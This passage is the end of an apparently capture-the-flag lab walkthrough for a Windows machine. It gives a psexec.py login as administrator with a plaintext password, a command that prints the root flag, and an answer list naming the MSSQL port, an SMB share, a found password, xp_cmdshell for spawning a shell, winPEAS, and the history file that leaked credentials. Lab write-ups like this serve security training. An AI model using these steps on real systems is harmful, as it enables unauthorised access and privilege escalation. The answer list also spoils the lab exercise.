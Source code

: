 ```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.129.91.127
```

![root](images/root.png#center)

Finally, print out the flag.

```sh
type C:\Users\Administrator\Desktop\root.txt
```

### Questions
- Which TCP port is hosting a database server? `1433`
- What is the name of the non-Administrative share available over SMB? `backups`
- What is the password identified in the file on the SMB share? `M3g4c0rp123`
- What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? `mssqlclient.py`
- What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? `xp_cmdshell`
- What script can be used in order to search possible paths to escalate privileges on Windows hosts? `winPEAS`
- What file contains the administrator's password? `ConsoleHost_history.txt`

